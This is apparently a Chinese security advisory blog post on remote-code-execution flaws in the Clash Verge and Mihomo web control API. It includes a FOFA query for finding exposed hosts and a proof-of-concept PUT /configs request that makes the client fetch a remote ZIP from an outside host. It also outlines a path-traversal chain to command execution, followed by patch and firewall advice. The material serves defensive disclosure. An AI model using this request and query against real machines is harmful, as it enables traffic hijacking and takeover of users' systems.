 #  【漏洞预警】全球数万设备受影响！Clash用户小心：暴露Web控制端口=门户大开！   
原创 Gobybot  GobySec   2025-05-21 10:58  
  
近日，Goby安全研究团队发现Clash verge 两个RCE漏洞：4月28日，Clash verge RCE漏洞：此漏洞需要本地提权触发，官方告知广大用户无需过渡恐慌。5月19日，Clash verge RCE漏洞：攻击者通过该漏洞构造恶意网页，可在用户无感知的情况下篡改Mihomo（Clash核心）配置文件，最终可以实现任意文件写入和远程命令执行。Goby安全团队随即响应测试，我们在测试过程中发现了一些不一样的东西：实际上，远程攻击者可实现的攻击链路不仅于此，最直接的攻击链路可以通过篡改Mihomo（Clash核心）配置文件达到例如：删除配置文件导致用户机器断网或修改指定配置文件监听流量的目的。再通过进一步深入测试发现，不止Clash Verge ，只要对外开启了Web控制服务的Clash相关产品都存在此攻击风险。最重要的是，Clash的Web控制服务下载后默认开启的（默认端口为9090/9097），且所有历史版本（Clash ≤2.2.4 , Mihomo ≤v1.19.8）都受此漏洞影响，那么我们可以直接通过FOFA查询公网影响资产情况：body="\"hello\":\"mihomo\"" || body="\"hello\":\"clash\""通过FOFA资产搜索引擎的搜索结果显示，暴露在公网的相关资产数量达到了13700 + 。【漏洞分析】以“修改配置文件，导致目标机器页面显示异常”为例只要局域网内有机器使用Clash并且对外打开web控制服务端口，攻击者入侵后极有可能修改机器的配置信息。这可能会导致机器的页面显示异常，从而影响正常工作。复现过程如下：PUT /configs HTTP/1.1Host: 127.0.0.1:9097Connection: keep-aliveContent-Length: 196User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0Content-Type: text/plain;charset=UTF-8{"payload":"\n  external-ui: gY1bN0iF0kG2eN4z\n  external-ui-url: http://www.demo.com/demo.zip\n                external-ui-name: demo","path":""}未授权API调用利用CORS缺陷，恶意网页可跨域操控127.0.0.1:9097接口路径穿越投毒通过external-ui: ../../../tmp突破目录限制，将恶意UI包写入系统临时目录篡改的配置文件触发Clash GUI核心模块异常【漏洞危害分析】按照上述漏洞触发原理，还有可能导致以下危害：1.修改指定配置文件，劫持代理，截取流量同理，攻击者还可以通过修改指定的配置文件，对网络流量进行截取。这意味着用户在网络上传输的敏感信息，如账号密码、交易记录等，都有可能被攻击者获取。这将严重威胁用户的隐私安全和财产安全，可能会导致用户遭受诈骗、信息泄露等风险。2.通过特定链路，可能导致RCE(以Clash Verge客户端为例)Clash Verge客户端默认配置下在http://127.0.0.1:9097开启了一个RESTFul API服务，且存在CORS问题，恶意网页可以通过该服务修改Mihomo（Clash核心）的配置文件。Clash核心配置文件包含如下字段，可以从互联网下载一个ZIP文件到本地并解压，注意external - ui字段存在路径穿越检查，但是检查不完善，可以通过external - ui - name字段绕过，最终实现本地文件写入。攻击者可以利用这一漏洞，通过特定的链路实现远程命令执行（RCE），从而完全控制受影响的机器。这将给用户带来极其严重的安全后果，如数据被窃取、系统被破坏等。构造恶意external-ui路径（如../../tmp）  -> 下载含恶意脚本的ZIP文件到系统目录  -> 通过crontab/启动项实现命令执行【安全修复建议】应尽快将Clash客户端和Mihomo升级至已修复版本：Clash>= v2.3.0Mihomo >= v1.20.1关闭不必要的服务端口由于web控制服务端口是默认开放的，所以用户应检查并关闭Clash客户端对外打开的web控制服务端口，避免将其暴露在公网环境中。这样可以减少被攻击者发现和利用漏洞的风险。# 立即关闭Web控制端口sudo ufw deny 9090/tcpsudo ufw deny 9097/tcp# 修改默认API密钥sed -i 's/secret: ""/secret: "YourStrongPassword"/' ~/.config/clash/config.yaml为外部控制添加密码验证Goby标准版及企业版已支持无损漏洞检测Goby欢迎表哥/表姐们加入我们的社区大家庭，一起交流技术、生活趣事、奇闻八卦，结交无数白帽好友。也欢迎投稿到Goby（Goby介绍/扫描/口令爆破/漏洞利用/插件开发/PoC编写/IP库使用场景/Webshell/漏洞分析等文章均可），审核通过后可奖励Goby标准版，快来加入吧~~~  
![图片](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjIiabR1dAPwPUfdMicdAYjpI64IJvW0ibvQHibec1lKpI5j2gBSHics8h2nBF9PRHv3NwauicLyB5lEWfmQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
